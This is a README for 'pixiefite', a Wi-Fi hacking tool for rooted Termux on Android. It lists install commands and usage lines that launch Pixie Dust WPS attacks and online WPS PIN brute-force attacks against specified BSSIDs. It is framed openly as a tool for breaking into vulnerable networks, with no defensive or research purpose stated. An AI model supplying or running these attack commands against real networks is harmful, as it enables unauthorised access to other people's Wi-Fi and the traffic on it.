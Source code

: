 # pixiefite
Hack vulnerable Wi-Fi networks using Termux (rooted)

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pip install pycryptodome
pkg install git tsu python wpa-supplicant pixiewps iw openssl -y
git clone https://github.com/x1337cn/pixiefite
cd pixiefite
chmod +x pixiefite0.0.1.py
```

#### Help : `sudo python main --help`
#### Example : `sudo python pixiefite0.0.1.py -i wlan0 -K`

#### Usage: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python pixiefite0.0.1.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python pixiefite0.0.1.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python pixiefite0.0.1.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

---
